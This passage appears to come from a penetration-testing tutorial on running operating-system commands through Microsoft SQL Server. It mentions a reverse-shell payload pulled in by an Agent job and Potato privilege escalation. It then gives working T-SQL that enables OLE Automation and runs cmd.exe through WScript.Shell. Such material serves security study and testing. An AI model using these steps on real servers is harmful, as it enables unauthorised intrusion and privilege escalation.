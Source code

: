     The remote file `a` would typically contain a **PowerShell reverse shell** payload.
    
    ![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/4ea1f42f-2085-499a-b361-19da9d0367fb/image.png?table=block&id=1d385370-06ca-8032-b24b-d59e9012fd04&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=nI0Jp_T9KgpQ8qlgD1mFKhBUUEoiFKlyht9yaPEybqk&downloadName=image.png)
    
    **🚨 Security Note**
    
    - SQL Server Agent often runs as `NT SERVICE\SQLSERVERAGENT`
    - This account typically holds **SeImpersonatePrivilege**, which can be escalated via **"Potato" attacks** to SYSTEM
- 🧹 Cleanup:
    
    ```sql
    EXEC sp_delete_job @job_name = N'Malicious Job';
    ```
        
## 3. 🎮  **Command Execution via OLE Automation Procedures**

OLE Automation allows executing Windows COM objects from T-SQL. This feature is disabled by default but can be enabled if you have `sysadmin` access.

It utilizes stored procedures such as `sp_OACreate` and `sp_OAMethod`.

Leverages OLE Automation allows T-SQL to interact with other languages like **VBScript** to run system commands.

For example, you can use it to create a `wscript.shell` object and execute **arbitrary system commands** directly from SQL Server.

- **⚙️ Requirements**
    - `sysadmin` privileges
    - OLE Automation must be enabled
- **✅ Enabling OLE Automation**
    
    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure 'ole automation procedures', 1;
    RECONFIGURE;
    ```
    
- **▶️ Example Command Execution**
    
    
    ```sql
    DECLARE @objShell INT;
    DECLARE @output varchar(8000);
    EXEC sp_OACreate 'WScript.Shell', @objShell OUTPUT;
    EXEC sp_OAMethod @objShell, 'Run', NULL, 'cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"';
    ```
    
    ![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/c971ee40-0378-447c-816c-1ee063207b8c/image.png?table=block&id=1d385370-06ca-8052-b538-eb19121bb3a3&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=QEc9tMBSts5vJzZyNX5KRaTeeL6ioQ33S9Cu0j05sWU&downloadName=image.png)
    
    - This will run `whoami` and save the output to a text file.
    - Useful when no direct output is needed and the file system is writable.
- **🧠 Notes**
    - Uses COM objects (similar to VBScript)
    - Commands are executed using the SQL Server process's privileges
- **🧹 Cleanup**
    